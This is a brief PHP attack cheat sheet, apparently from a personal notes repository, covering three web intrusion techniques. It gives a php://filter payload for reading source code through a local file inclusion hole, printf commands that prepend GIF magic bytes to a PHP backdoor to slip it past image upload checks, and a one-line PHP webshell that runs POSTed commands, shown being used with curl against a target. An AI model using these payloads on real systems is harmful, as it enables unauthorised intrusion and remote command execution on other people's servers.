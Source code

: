 === php

==== Local File Inclusion

If you have

 include($_GET['page'] . ".php");

You can reveal php contents with:

 ?page=php://filter/convert.base64-encode/resource=index

and some clever scripting.

==== Image Upload

1. Try just taking on an extension: `backdoor.php.gif`
2. Try prefixing the file with a small gif:

  printf "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x00\xff\x00" > backdoor.php.gif
  printf "\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x00\x3b" >> backdoor.php.gif
  cat backdoor.php >> backdoor.php.gif

==== Webshell

  <?php @system($_POST['cmd']); ?>

Use it with curl:

  curl -d 'cmd=/usr/bin/id' http://target/shell.php
